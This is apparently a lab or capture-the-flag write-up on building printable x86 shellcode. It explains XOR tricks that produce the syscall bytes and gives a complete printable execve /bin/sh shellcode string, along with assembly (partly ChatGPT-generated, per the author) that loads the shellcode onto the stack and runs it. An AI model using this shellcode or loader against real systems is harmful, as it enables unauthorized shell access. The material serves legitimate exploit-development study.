 2. XOR edx by a printable byte and a 0xff byte to get `cd 80`
  - We need to set the high bits of the effective-NOP bytes (`inc %edi`) by xoring it with `0xff` and then some printable byte to arrive `cd 80`.
  - The most size-preserving way to do this is first XORing both bytes by printable bytes, and then getting `%eax` to `0xffffffff` (by decrementing %eax after setting it to zero a-la previously described trick).
  - If done correctly, we should the byte at `%edx = 0x4F ^ 0xFF ^ 0x7D = 0xCD` and the byte at `%edx+1 = 0x4f ^ 0xFF ^ 0x30 = 0x80`.

4. We should then get a shell!

This process is very hacky and took a long time to get working exactly (specifically finding the byte to XOR %edx by that got it pointed into our effective NOP slide).


### Debugging Payload
Debugging my payload was also really key to spotting potential errors.  Since I didn't have a 32-bit Linux VM, and I didn't feel like setting one up, I just ended up testing my shellcode payload on my standard 64-bit VM by writing a whole other assembly script that would put my printable payload onto the stack and then execute the payload (I used ChatGPT to generate most of the script lol).

Here's the assembly code I used to test my payload:
```
// called the file test.S
#include <sys/syscall.h>

.section .data
my_string:
				// Here's my printable shellcode stored as the global "my_string"
	.string "TZRX42PZfh}}X0\"jAX4AH0\"Bfh00X0\"jAX4AH0\"@PPZYPhn/shh//biT[jJX4AOOOOOOOOOOOOOOOOOO"

.section .text
.globl  main
.type   main, @function
// chatGPT generated all of this:
main:
    mov $my_string, %esi     # Load the address of the string into the source register (esi)
    mov $0x0, %ecx             # Counter for string length

find_end:
    inc %ecx                 # Increment the counter for string length
    cmpb $0, (%esi, %ecx)    # Compare the byte to null terminator
    jne find_end             # If not null terminator, continue looping

    sub $1, %ecx             # Adjust the length counter for null terminator
    shr $2, %ecx             # Divide by 4 to get the number of DWORDs

loop_start:
    movl (%esi, %ecx, 4), %eax  # Load a DWORD (4 bytes) from the string into eax
    //bswap %eax                   # Reverse the byte order in the DWORD
    push %eax                    # Push the DWORD onto the stack
    dec %ecx                     # Move to the previous DWORD in the string
    jns loop_start               # Continue looping until no more DWORDs
  // then I just added a simple call %esp!
	call %esp
```
